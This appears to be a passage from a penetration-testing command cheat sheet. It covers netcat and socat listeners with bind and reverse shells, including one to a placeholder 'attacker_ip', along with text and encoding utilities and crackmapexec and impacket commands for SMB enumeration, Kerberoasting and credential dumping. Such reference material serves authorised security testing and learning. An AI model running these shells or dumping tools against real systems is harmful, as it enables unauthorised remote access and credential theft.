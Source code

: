 ### netcat-traditional
Shells and listeners.
- Listener: `nc -lvnp 4444`
- Reverse shell: `nc target.com 4444 -e /bin/bash`

### socat
Advanced listener and bind shells.
- Bind shell: `socat TCP-LISTEN:4444,fork EXEC:/bin/bash`
- Reverse shell: `socat TCP:attacker_ip:4444 EXEC:/bin/bash`

---

## Utilities & Scripting

### jq
Parse and format JSON.
- `cat data.json | jq '.'`

### xxd
Hex dump.
- `xxd file`
- `xxd -r file.hex > file.bin`

### base64
Encode and decode data.
- `echo "text" | base64`
- `echo "dGV4dA==" | base64 -d`

### tr / sed / awk
Text transformations.
- `echo "ABC" | tr 'A-Z' 'a-z'`
- `echo "123 abc" | sed 's/abc/xyz/'`
- `awk '{print $1}' file.txt`

---

## Advanced Tools

### pipx
Install and run Python tools in isolation.
- `pipx install crackmapexec`

### crackmapexec
SMB/AD post-exploitation.
- `cme smb 192.168.1.0/24 -u user -p pass`
- `cme smb target --shares`

### impacket
Protocol tools and exploit scripts.
- `GetUserSPNs.py domain/user:pass`
- `secretsdump.py -target-ip 192.168.1.1 user@domain`
